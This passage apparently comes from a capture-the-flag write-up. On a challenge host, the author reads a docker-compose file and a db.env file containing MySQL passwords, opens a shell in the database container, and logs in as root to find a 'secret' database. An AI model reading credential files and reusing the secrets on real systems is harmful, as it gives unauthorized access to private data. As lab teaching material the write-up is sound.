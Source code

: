     root@ubuntu-jammy:~/challenge# cat docker-compose.yml
    version: '3'
    
    services:
      web:
        platform: linux/amd64
        build: ./web
        ports:
          - "80:80"
        restart: always
        privileged: true
      db:
        image: mariadb:10.11.11-jammy
        volumes:
          - "./db:/docker-entrypoint-initdb.d:ro"
        env_file:
          - "./db/db.env"
        restart: always

The root password for the MySQL server was found in /root/challenge/db/db.env:
Bash

    root@ubuntu-jammy:~/challenge# cat db/db.env
    MYSQL_PASSWORD=TAJnF6YuIot83X3g
    MYSQL_DATABASE=web
    MYSQL_USER=web
    MYSQL_ROOT_PASSWORD=gG4i8NFNkcHBwUpd

Listing running containers confirmed the MariaDB database container:
Bash

    root@ubuntu-jammy:~/challenge# docker container ls
    CONTAINER ID   IMAGE                    COMMAND                  CREATED       STATUS       PORTS                                 NAMES
    89366d62e05c   mariadb:10.11.11-jammy   "docker-entrypoint.s…"   7 weeks ago   Up 4 hours   3306/tcp                              challenge-db-1
    bb28d5969dd5   challenge-web            "docker-php-entrypoi…"   7 weeks ago   Up 4 hours   0.0.0.0:80->80/tcp, [::]:80->80/tcp   challenge-web-1

We obtained a shell inside the database container:
Bash

    root@ubuntu-jammy:~/challenge# docker container exec -it 8936 bash

Connecting to the database as root with the discovered password (gG4i8NFNkcHBwUpd), we found an additional database named secret:
SQL

    root@89366d62e05c:/# mysql -u root -pgG4i8NFNkcHBwUpd
    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | secret             |
    | sys                |
    | web                |
    +--------------------+
    6 rows in set (0.004 sec)

